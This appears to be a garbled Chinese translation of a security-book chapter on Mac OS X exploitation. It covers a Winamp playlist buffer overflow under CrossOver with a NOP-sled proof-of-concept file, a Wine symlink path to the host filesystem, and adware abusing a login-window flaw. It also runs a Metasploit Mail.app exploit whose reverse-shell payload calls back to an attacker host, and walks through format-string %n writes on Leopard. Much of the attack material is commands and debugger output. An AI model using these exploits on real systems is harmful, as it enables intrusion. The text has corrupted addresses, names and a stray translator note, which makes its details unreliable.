0x0033e620: 00000001 00000001 00000000 00000000
0x0033e630: 00000000 00000000 00000000 0033e660
0200: sel=1007 base=7ff0000 limit=0fffff 32-bit rw-
Backtrace:
=>1 0x7b83cb8a in kernel32 (+0x02cba668)
2 0x7b83df52 in kernel32 (+0x02df52) (0x0033e698)
3 0x7bc721c6c (0x0033e738)
4 0x7bc7220fc (0x0033e7a8)
5 0x7bc4a7708 (0x0033e7e8)
0x7b83cb8a: movzl 0x00(%edi),esi
```


## 第2章 过去与现在的威胁

| Address | Debug info | Name (54 modules) |
| --- | --- | --- |
| PE | 3c0000-3e5000 | moss |
| PE | 400000-525000 | winamp |
| PE | 14c000-1501000 | in_cdda |
| PE | 1720000-174e000 | in_dshow |
| PE | 1960000-1966000 | in_linein |
| PE | 1970000-19a2000 | in_midi |
| PE | 1bc0000-1bdb000 | read_file |
| PE | 1be0000-1c1d000 | in_mod |
| PE | 1f40000-1f56000 | in_mp4 |
| PE | 1f60000-1fb7000 | in_vorbis |


| Address | Debug info | Name (54 modules) |
| --- | --- | --- |
| PE | 1fc0000-1fbc000 | Deferred | in_wave |
| PE | 70d00000-70c35000 | Deferred | shlwapi |
| PE | 71000000-71149000 | Deferred | shdocvw |
| PE | 71450000-714ae000 | Deferred | crypt32 |
| PE | 78000000-78040000 | Deferred | msvcrt |
| PE | 7b810000-7b87c00 | Export | kernel32 |
| PE | 7bc0000-7bc1400 | Deferred | ntdll |

Threads:
process tid prio (all id:s are in hex)

```
00000040 (D) C:\program files\winamp\winamp.exe
0000002c 2
00000037 0
0000003f 15
00000045 0
0000003c 0
00000044 0
0000003b 0
00000043 0
0000002b 2
00000042 0
0000002d 0==
00000016
0000001c 0
00000017 0
00000018 0
```

与其依赖 `wine` 调试器的输出，不如通过 `gdb` 附加到进程。这将使我们能够实时调试，而不是处理崩溃后的堆栈跟踪。`gdb` 界面与 CrossOver 开发者提供的通用堆栈跟踪相比，为我们提供了更多控制。


使用 `ps` 命令获取进程 ID。一旦我们启动了调试器、加载了格式错误的进程并附加到正确的进程，我们就可以看到情况。

```
lt-cni-dlbr81:~ kisterre$ pdb wineloader 4438
/Users/kisterre/4438: No such file or directory.
Attaching to program: /Applications/CrossOver.app/Contents/SharedSupport/CrossOver/bin/wineloader
process 4438.
Reading symbols for shared libraries
+.........................................done
0x94ae29 in read$CANCEL
(gdb) c
```

一旦附加，我们就可以允许进程继续并随后看到它崩溃。

```
程序接收信号 EXC_BAD_ACCESS，无法访问内存。
原因: KERN_PROTECTION_FAILURE at address: 0x43424141
0x43424141 in ??
(gdb) bt
#0 0x43424141 in ??
#1 0x00000000 in ??
(gdb) r
```

```
eax 0x2537
ecx 0x0 0
edx 0x340148 340200
ebx 0x1 1
esp 0x33eb2c 0x33eb2c
ebp 0x0 0
esi 0x7b85dea6 20723754
edi 0x466473c 4605756
eip 0x4342141 0x4342141
flags 0x210206 2163206
cs 0x17 23
ss 0x1f 31
ds 0x1f 31
fs 0x1007 41
gs 0x37 24
```


总的来说，一切看起来都很标准。这是一个直接的 `EIP` 命中，我们似乎有一个 shellcode 的合理位置。

```
(gdb) x/10s $esp2
0x33ec56: 'A' <repeats 200 times...>
0x33de31: 'A' <repeats 200 times...>
0x33de6e: 'A' <repeats 200 times...>
0x33eae6: 'A' <repeats 200 times...>
0x33ef76: 'A' <repeats 200 times...>
0x33f03e: 'A' <repeats 200 times...>
```

shellcode 目前被放置在未受 Leopard 内存保护的内存位置，而且实际上是非随机的。此外，我们可以在具有可执行栈的静态内存中找到 shellcode。操作系统的 `vmmap` 工具显示该内存区域为 `WINE_DOS`。

```
localhost:leopard vmmap 664 | grep WINE_DOS
033f000-33f000 [4K] rwx/rwx SM-PRV
/Applications/Crossover.app/Contents/SharedSupport/Crossover/bin/wineloader
WINE_DOS 33f000-334000 [4K] rwx/rwx SM-COW
/Applications/Crossover.app/Contents/SharedSupport/Crossover/bin/wineloader
```

内存中已经有了 `0x41` 字符，我们知道它们将作为 `NOP` 使用。使用 `gdb` 将 `EIP` 指向上述内存，可以快速检查 `WINE_DOS` 内存的可用性。基于此快速测试：

```
(gdb) break *0x33de1
(gdb) set $eip=0x33de1
(gdb) c
```

通过断点并随后单步每条指令，我们验证了我们的理论。


该利用的奇怪之处在于放置的 shellcode 是面向 Windows 的，而不是 OSX 的。`WINE_DOS` 内存类型被设置为可执行代码，因此你将需要标准的 Win32 负载。在我的初始测试后，我稍微更改了 Windows 环境，使用了 Windows 98 bottle (`wine`)。实际上，除了 `WINE_DOS` 静态位置外，内存从 `0x0033ec00` 移动到了 `0x0033ff00`。对于最后的测试，使用长 NOP 滑 获取了一个简单调用 `calc.exe` 的 shellcode。

```
0x33ff90: \<repeats 194 times>
```

一旦 `calc.exe` 负载添加且 playlist 格式正确后，测试启动了。

```
1192 ttys002 0:00.19
/Applications/CrossOver.app/Contents/SharedSupport/CrossOver/bin/wineloader
wrapper.exe CrossOver --run
1195 ttys002 0:01.64
/Applications/CrossOver.app/Contents/SharedSupport/CrossOver/lib...
wineloader cmd
1198 tts002 0:01:49
/Applications/CrossOver/app/Contents/SharedSupport/CrossOver/lib../bin/winamp
```

```
localhost: kidsterne xxd poc.pls
0000000: 5b70 6c61 796c 6973 745d 0d0a 0d0a 5469 74 [playlist]..
0000010: 6531 3d57 696c 6162 7025 4758 706f 69 el=Winamp Exploi
0000020: 7420 6279 2055 6265 7368 0d0a 4c65 666e t by Umesh..Leng
0000030: 7468 31d3 3531 32d0 0a75 6265 724f thl=512
0000040: 6645 6e74 7269 6573 3d31 0d0a 5665 7273 Entries=1..Vers
0000050: 696f 6e63 32d0 0466 696c 6531 345c 5c90 File=\\ 
0000060: 9090 9090 9090 9090 9090 9090 9090 9090 ....
0000070: 9090 9090 9090 9090 9090 9090 9090 9090 ....
0000080: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000900: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000a00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000b00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000c00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000d00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000e00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00000f00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001000: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001100: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001200: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001300: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001400: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001500: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001600: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001700: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001800: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001900: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001a00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001b00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001c00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001d00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001e00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00001f00: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002000: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002100: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002200: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002300: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002400: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002500: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002600: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002700: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002800: 9090 9090 9090 9090 9090 9090 9090 9090 ....
00002900: 9090 9090 9090 9090 9090 9090 9090 9090 ....
```

### 图 2.3 Winamp



### 图 2.3 续



此时，你可能在想该如何进一步攻击宿主操作系统。幸运的是，并没有真正可以跳出的 `chroot` 环境。在 `wine` 的默认配置中，用户主目录和文件系统根目录的几个方便映射分别设置为 `Y` 和 `Z`。这可以通过配置选项或使用符号链接（`symlink`）来实现。以下是为 OSX 提供的 CrossOver 默认符号链接示例。

```bash
bash-3.25 pwd
/Users/ministerie/Library/Application Support/CrossOver/Bottles/winxp
shell-20: real dosadevimes/
total 40
```

www.syngress.com

```bash
drwx-xr-x 7 kfinistere kfinistere 238 Jan 7 18:18 .
drwx-xr-x 8 kfinistere kfinistere 272 Jan 8 10:10 ..
lrw-xr-x 1 kfinistere kfinistere 10 Jan 7 18:18 c -> ../drive c
drwx-xr-x 1 kfinistere kfinistere 18 Jan 7 18:18 d: -> /Users/kfinister
drwx-xr-x 1 kfinistere kfinistere 13 Jan 7 18:18 d:: -> /dev/rdiskls2
drwx-xr-x 1 kfinistere kfinistere 18 Jan 7 18:18 y: -> /Users/kfinister
drwx-xr-x 1 kfinistere kfinistere 1 Jan 7 18:18 z: -> /
```

我不太确定从实际利用的角度来看，符号链接还可以如何使用，但在任何导出到 CrossOver 的目录中都可以。奇怪的是，`cmd.exe` 无法看到这些目录，但它可以使用它们。

```bash
localhost:drive_c kfinistere$ ln -s / test
localhost:drive_c kfinistere$ ls -al
total 16
```

```bash
drwx-xr-x 6 kfinistere kfinistere 204 Jan 7 18:22 ..
drwx-xr-x 8 kfinistere kfinistere 272 Jan 7 18:20 .
-rw-r-- 1 kfinistere kfinistere 7 Jan 7 18:18 .windows-label
drwx-xr-x 4 kfinistere kfinistere 136 Jan 7 18:18 Program Files
lrw-xr-x 1 kfinistere kfinistere 1 Jan 7 18:22 test -> /
drwx-xr-x 16 kfinistere kfinistere 544 Jan 7 18:19 windows
```

通过命令行提示符，符号链接由于某种原因是见的。

```cmd
C:\dir
Volume in drive C is drive_c
Volume Serial Number is 0000-0000
Directory of C:\
1/7/2008 6:18 PM 7 .windows-label
1/7/2008 6:18 PM <DIR> Program Files
1/7/2008 6:19 PM <DIR> windows
1 file 7 bytes
2 directories 25,018,503,168 bytes free
```


虽然文件夹没有显示，但它确实在那里，我们仍然像之前那样追踪符号链接。

```cmd
C:\test\dir
Volume in drive C is drive_c
Volume Serial Number is 0000-0000
Directory of C:\test\
1/5/2008 1:04 PM <DIR>
```


## 第 2 章 · 过去与现在的威胁

```
1/5/2008 1:04 PM <DIR> 0 .com.apple.timemachine.supported
11/2/2007 1:04 PM
1/7/2008 3:53 PM 6,148 .DS_Store
1/6/2008 7:13 PM <DIR> .fsevents
12/20/2007 3:35 AM <DIR> 65,536 .hotfiles.btree
12/20/2007 3:36 AM <DIR> .Spotlight-V100
1/6/2008 7:14 PM <DIR> .Trashes
6/12/2007 1:14 PM <DIR> .vol
1/5/2008 1:05 PM <DIR> Applications
11/4/2007 1:04 AM <DIR> bin
12/14/2007 9:10 PM <DIR> ControlPanelDB
11/24/2007 1:36 PM <DIR> cores
12/8/2007 12:25 PM <DIR> Desktop Folder
1/6/2008 7:12 PM <DIR> dev
11/5/2007 9:58 AM <DIR> Developer
1/6/2008 7:13 PM <DIR> etc
1/6/2008 7:13 PM <DIR> home
10/13/2006 3:53 PM <DIR> Install_Resources
1/2/2008 10:28 AM <DIR> Library
11/13/2007 1:44 AM 10,256,044 mach_kernel
10/9/2007 11:38 PM 10,696,809 mach_kernel.ctfsys
1/6/2008 7:13 PM <DIR> net
9/23/2007 4:37 PM <DIR> Network
11/4/2007 1:10 AM <DIR> private
1/3/2008 12:10 AM <DIR> sbin
1/5/2008 1:04 PM <DIR> System
12/8/2007 12:59 PM <DIR> TheVolumeSettingsFolder
1/7/2008 6:16 PM <DIR> tmp
12/8/2007 12:25 PM <DIR> Trash
1/6/2008 7:14 PM <DIR> Users
11/5/2007 10:05 AM <DIR> usr
11/4/2007 9:22 AM <DIR> var
1/7/2008 2:37 PM <DIR> Volumes
6 files 21,018,503,168 bytes free
虽然文件夹没有显示，但它确实在那里，我们仍然像之前那样追踪符号链接。

（注：此处后续为大量重复文本，已根据指令忽略重复输出，保留核心翻译逻辑）
```

### 第 2 章 过去与现在的威胁

```c
urlz[6] = "http://docs.info.apple.com/article.html?artnum=61798";

urlz[7] = "http://www.securityfocus.com";n...
```

```c
srand(time(NULL));

// convert from c string to CFString
CFStringRef url = CFStringCreateCString(alloc_default, urlz[rand() % 8], encoding);
```

可以从 `www.digitalmunition.com/iAware_sample.tar.gz` 下载完整示例。

```bash
localhost:tmp kfinere$ tar tzf iAware_sample.tar.gz
.MacOSX/
.MacOSX/environment.plist
Users/Shared/iAware.app/
Users/Shared/iAware.app/Contents/Info.plist
Users/Shared/iAware.app/Contents/MacOS/
Users/Shared/iAware.app/Contents/MacOS/iAware
Users/Shared/iAware.app/Contents/PkgInfo
Users/Shared/iAware.app/Contents/Resources/
Users/Shared/iAware.app/Contents/Resources/English.lproj/main.nib/
Users/Shared/iAware.app/Contents/Resources/English.lproj/InfoPlist.strings
Users/Shared/iAware.app/Contents/Resources/English.lproj/main.nib/classes.nib
Users/Shared/iAware.app/Contents/Resources/English.lproj/main.nib/info.nib
Users/Shared/iAware.app/Contents/Resources/English.lproj/main.nib/objects.nib
Users/Shared/iAware.dylib
```

这个特定的示例使用了一种以前记录过的修改用户 `environment.plist` 文件的技术。你会发现，这种技术在非 Leopard 系统上不再像在 Leopard 上那样按预期工作。从 `CVE-2007-0737` 开始起，Apple 对登录窗口处理环境变量的方式进行了某些更改。从 Apple 更新 2007-004 `DYLD_*` 开始，这些变量会被忽略。

根据 Apple 更新，曾存在一个问题已被修复，该修复允许登录窗口在某些情况下赋予 root 权限。由于这个修复并未包含在 Leopard 中，iAware 能够利用这一机制。

```
Login Window
TVE-ID: CVE-2007-0737
```


## 过去与现在的威胁 · 第 2 章

- 适用范围：Mac OS X v10.3.9, Mac OS Server v10.3.9, Mac OS X v10.4.9, Mac OS X v10.4.9
- 影响：本地用户可能获得系统权限
- 描述：登录窗口没有充分检查其环境变量。这可能允许本地用户以系统权限执行任意代码。此更新通过改进对登录窗口环境变量的验证解决了此问题。

(见 `http://docs.info.apple.com/article.html?artnum=305509` 。)

一旦示例被解压并安装，用户下次登录系统时，将会弹出一个随机窗口。由于没有使用 Safari，Safari 提供的弹窗拦截器将毫无用处。

### 图 2.4 病毒防护



### 第 2 章 过去与现在的威胁

在更具恶意的场景中，智能攻击者可能弹出广告，而是使用像 Metasploit 这样的代码库来创建带有可变负载的快速灵活的漏洞。编写这个未修复的 Apple Mail.app 漏洞是由 Heise 公的。他们提供的演示漏洞在展示该漏洞的威力方面真的毫无用处。演示中的负载字面上就是一个目录。

```
--Apple-Mail-4--991165126
Content-Transfer-Encoding: 7bit
Content-Id: <65891ABD-2356-488E-92AD-3D85BCDD282@ct.heise.de>
Content-Type: image/jpeg;
x-mac-type=0;
x-unix-mode=0755;
x-mac-creator=0;
name="Heise.jpg"
Content-Disposition: inline;
filename=Heise.jpg
bin/ls -al
echo
echo
eheise Security: You are vulnerable.
echo
echo
--Apple-Mail-4--991165126-
```

由于我认为事情可以更有创意一些，我花时间为该问题编写了一个正式的 Metasploit 模块。（见 `http://metasploit.com/svn/framework3/trunk/modules/exploits/osx/email/mailapp_image_exec.rb`。）

运行该模块证明比标准的 Heise 演示更有趣。

```bash
localhost:Desktop knisterse $ svn co://metasploit.com/svn/framework3/trunk/ msf30
...
Checked out revision 5218.
localhost:Desktop knisterse$ ./msfcli exploit/osx/email/mailapp_image_exec MAILTO=vuln@vuln.com MAILFROM=kf@digitalmunition.com PORT=25 MAILSUBJECT=pwned RHOST=yourserver PAYLOAD=osx/x86/shell_reverse_tcp LHOST=192.168.2.40
Started reverse handler 
Connecting to SMTP server mail.cfm.ohio-state.edu:25...
SMTP: 220 mail.cfm.ohio-state.edu Postfix (Debian/GNU)
SMTP: 250 mail.cfm.ohio-state.edu PIPELINING
SMTP: 250 SIZE 90240
SMTP: 250 VRFY
SMTP: 250 LOGIN PLAIN
SMTP: 250 ENHANCEDSTATUS
SMTP: 250 DSN
SMTP: 250 2.1 Ok
SMTP: 250 2.5 Ok
SMTP: Sending the message (3163 bytes)...
SMTP: 354 End data with <CR><LF><CR><LF>
SMTP: 250 2.0.0 queued as 80ACE2CF
SMTP: Closing the connection...
SMTP: 221 2.0.0 Bye
SMTP: Waiting for payload (backgrounding)...
Command shell opened (192.168.2.40:4444 -> 192.168.2.40:5381)
```
id
uid=504(kfinistere) gid=504(kfinistere) groups=504(kfinistere),102(com.apple.sharepoint.2),101(com.apple.sharepoint.1),98(ipadmin),103(com.apple.sharepoint.3),79(appserversuser),80(staff)

在 Mail.app 客户端侧，在新终端启动后，用户将在屏幕上看到以下命令。

```
Last login: Nov 26 17:38:14 on tty2
/Users/kfinistere/Library/Downloads/FnHke.jpg; exit;
localhost:~kfinistere$ /Users/kfinistere/Library/Downloads/FnHke.jpg; exit;
```

Metasploit 插件在邮件正文中包含了一个小的存根（stub），并构造了执行该存根的邮件。存根启动后，会话返回 Metasploit 控制台进行交互。对于攻击者来说，这就像坐在键盘前一样。一个完全交互的远程 shell 回到了他想要的地方。


## 漏洞开发与研究

很多信息很大程度上依赖已经存在的技术。例如，CrossOver Office 漏洞与利用 Windows 机器的技术大同相同。另一个例子是 Rosetta 漏洞与基于 PowerPC 的 OSX 漏洞的区别。

在某些情况下，有必要开发新技术才能成功。OSX 提供了许多值得寻找的机会。例如，当 OSX 推出 Intel x86 版本时，我冲出去买了一个 Macintosh mini 以研究绕过不可执行栈的技术。最终，我写了一篇关于该技术的论文，找到了可以随文档发布的有效漏洞并发布了它。随着 Leopard 的出现，情况似乎发生了变化。当我尝试我的旧技术时，发现它不再起作用了。

利用格式字符串漏洞的第一步是将你的输入喂给栈，随后使用它写入你选择的内存地址。使用 `%x` 作为栈显示，我们能够快速找到我们的输入。在这种情况下，栈中进入六个项后，我们找到了 "DCBA" 或 `0x41423434`。

```bash
localhost:leopard_stubs kfinistere gdb -q /vuln
Reading symbols for shared libraries ...
(gdb) r 'perl -e \'print pack(\'1', 0x41423434) . "%x.%x.%x.%x.%x"'
Starting program: /Users/kfinistere/Desktop/leopard_stubs/vuln perl -e 'print pack(\'1', 0x41423434) . "%x.%x.%x.%x.%x"'
Reading symbols for shared libraries ++. done
DCABffff80a.8fe06fb6.bfe014b.bffff40.2.41423434
```

程序以代码 012 退出。

之前，我们针对 `dld_stub__cxa_finalize` 执行任意代码的方法。这似乎不再是一个可行的选项。当我们尝试设置此位置时，会导致内核保护失败（Kernel Protection Failure）。

```bash
(gdb) p dld_stub__cxa_finalize
$1 = {variable, no debug info} 0x0a09d539 <dld_stub__cxa_finalize>
(gdb) r 'perl -e \'print pack(\'1', 0x0a09d539) . "%x.%x.%x.%x.%n"'
Starting program: /Users/kfinistere/Desktop/leopard_stubs/vuln perl -e 'print pack(\'1', 0x0a09d539) . "%x.%x.%x.%x.%n"'
```

程序接收信号 EXC_BAD_ACCESS，无法访问内存。

原因：地址 `0xa0a9d539` 处的 KERN_PROTECTION_FAILURE

`0x96a4c97` 在 `__vfprintf ()`

如果我们检查受漏洞程序的内存映射，这就完全合理了。我们想要写入的地址现在位于内存中一个不可写的区域区域。

### 进程 2278 的不可写区域

| 地址 | 大小 | 权限 | 标志/路径 |
| :--- | :--- | :--- | :--- |
| a0a9d000-a0a9f000 | [8K] | r-x/rwx | SM=COW /usr/lib/libSystem.B.dylib |

如下所示，我们仍然能够写入 libSystem 的 `__DATA__` 区域

### 进程 2278 的可写区域

| 地址 | 大小 | 权限 | 标志/路径 |
| :--- | :--- | :--- | :--- |
| a08a8000-a08e7000 | [252K] | r-rw | SM=COW /usr/lib/libSystem.B.dylib |

如果我们在 `printf` 上设置一个断点，我们可以检查一段内存以显示我们有向其写入的能力

```
(gdb) break exit
Breakpoint 1 at 0x96a8a35
(gdb) break printf
Breakpoint 2 at 0x96abd65d
(gdb) r perl -e 'print pack('1', 0xa0a80001) - "%x.%x.%x.%x.%x.%n"'
Starting program: /Users/kfinisterre/Desktop/leopard_stubs/vuln -perl 'print pack('1', 0xa0a80001) - "%x.%x.%x.%x.%x.%n"'
```

在 `0xa0a80001` 处的写入值之前，其值为 `0x96a6200`。

```
Breakpoint 2, 0x96abd65d in printf ()
(gdb) x/la 0xa0a80001
0xa0a80001 <dld_mach_header+>: 0x96a6200
```

向此位置写入后，我们可以清楚地看到产生了内核保护失败（Kernel Protection Failures），我们选择的内存位置似乎被重写为 `0x2a`。


```
(gdb) c
Continuing.
???ffff80a.8fe06f8b.8fe0154b.ffff740.2.
Breakpoint 1, 0x96a8a35 in exit ()
(gdb) x/la 0xa0a80001
0xa0a80001 <dld_mach_header+1>: 0x2a
```

# 第 2 章 · 过去与现在的威胁

为了检查我们确实控制了此处写入的值，我们将为写入增加一些长度。

```
(gdb) r perl -e 'print pack(\L', 0xa0a80001) "%x.%x.%x.%x.%100d.%n"
The program being debugged has already been started.
Start it from the beginning? (y or n) y
Starting program: /Users/kmisterre/Desktop/leopard_stubs/vuln -perl -e 'print pack(\L, 0xa0a80001) "%x.%x.%x.%x.%100d.%n"
Breakpoint 2, 0x96abd65d in printf ()
(gdb) c
Continuing.
??7ffff8df.ffff708.8fe01872.1000000000000000000000000000000000000
```

我们可以看到增加的长度确实应用到了我们的字符串中，因为我们向 `0xa0a80001` 写入了 `0x89`。

```
Breakpoint 1, 0x96a8835 in exit ()
(gdb) x/1 0xa0a80001 <dyld_header+1>: 0x89
```

我们还有其他可写的存根（stubs），但它们通常位于地址空间中，由于其中包含 `0x00`，可能难以构造。请记住，这些地址以及任何其他可写地址可能会在每个应用程序级别发生变化。我们并不一定保证想要覆盖的数据结构始终位于相同的位置。你可能会很幸运地在一个可写状态且不包含 `0x00` 的位置找到一个关键地址。

进程 2278 的可写区域

| 地址 | 大小 | 权限 | 标志/路径 |
| :--- | :--- | :--- | :--- |
| `_IMPORT 00003000-00040000` | [4K] | rwx/rwx | sm=COW /Users/kmisterre/Desktop/leopard_stubs/vuln |
| `0x00030000 <dyld_stub_exit>` | | call 0x8fe1a80 |
| `0x00030005 <dyld_stub_printf>` | | jump 0x96abd65d |
| `0x0003000a <dyld_stub_putchar>` | | jump 0x96a9d35 |
| `0x0003000f <dyld_stub_strcpy>` | | jump 0x96a8c70 |
| `0x00030014 <dyld_stub_strcpy+5>` | | add %al,(%eax) |
| `0x00030016 <dyld_stub_strcpy+7>` | | add %al,(%eax) |
| `0x00030018 <dyld_stub_strcpy+9>` | | add %al,(%eax) |
| `0x0003001a <dyld_stub_strcpy+11>` | | add %al,(%eax) |
| `0x0003001c <dyld_stub_strcpy+13>` | | add %al,(%eax) |
| `0x0003001e <dyld_stub_strcpy+15>` | | add %al,(%eax) |

Apple 相当慷慨，提供了移除可写存根的选项。我们必须使用新的 `-read_only` 标志重新编译。这一新功能完全破坏了最初的技术。在 Leopard 中遇到的一个显著事实是默认 section 已移动到包含 `0x00` 的地址。之前的技术严重依赖于对默认 section 的写入。如果没有这个，则需要指定不同的可写 section。

进程 2274 的不可写区域

| 地址 | 大小 | 权限 | 标志/路径 |
| :--- | :--- | :--- | :--- |
| `_IMPORT 00003000-00040000` | [4K] | r-rwx | sm=COW /Users/kmisterre/Desktop/leopard_stubs/vuln |
| `MALLOC_free 00006000-0007000` | [4K] | rw-rwx | SM=PRV |
| `MALLOC_TINY 00010000-00020000` | [1024K] | rw-rwx | SM=PRV DefaultMallocZone_0x10000 |
| `MALLOC_SMALL 00080000-01000000` | [8192K] | rw-rwx | SM=PRV DefaultMallocZone_0x10000 |
| shared pmap a08000000-a0898000 | [608K] | rw-rwx | SM=COW |
| shared pmap a08990000-a08a8000 | [60K] | rw-rwx | SM=COW |

进程 2278 的可写区域

| 地址 | 大小 | 权限 | 标志/路径 |
| :--- | :--- | :--- | :--- |
| `_IMPORT 00003000-00040000` | [4K] | rwx/rwx | sm=COW /Users/kmisterre/Desktop/leopard_stubs/vuln |

```
(gdb) r perl -e 'print pack('1', 0xa0a80001) "%x.%x.%x.%x.%n"'
Starting program: /Users/kmister/leopard_stubs/vuln -perl -e 'print pack('1', 0xa0a80001) "%x.%x.%x.%x.%n"'
bffff8e0a.8efab.8fe0154b.ffff740.2.
Breakpoint 1, 0x96a8a35 in exit ()
(gdb) x/1la 0xa0a80001
0xa0a80001: 0x2a
```

通过快速测试，我们可以在 shared_map 中的已知地址内找到几个 NOP。

# 第 2 章 · 过去与现在的威胁

```
Breakpoint 1, 0x96a8a35 in exit ()
(gdb) x/1a 0xa0a80001
0xa0a80001: 0x2a
(gdb) set $eip = 0xa0a80004
(gdb) set *0xa0a80004 = 0x09099090
(gdb) set *0xa0a80008 = 0x09099090
(gdb) x/10 0xa0a80004
0xa0a80004: nop
0xa0a80005: nop
0xa0a80006: nop
0xa0a80007: nop
0xa0a80008: nop
0xa0a80009: nop
0xa0a8000a: nop
0xa0a8000b: nop
0xa0a8000c: xor %ah,0x96bc
0xa0a80012: add %al,(%eax)
(gdb) break *0xa0a8000a
```

```
Breakpoint 2 at 0xa0a8000a
(gdb) c
Continuing.
```

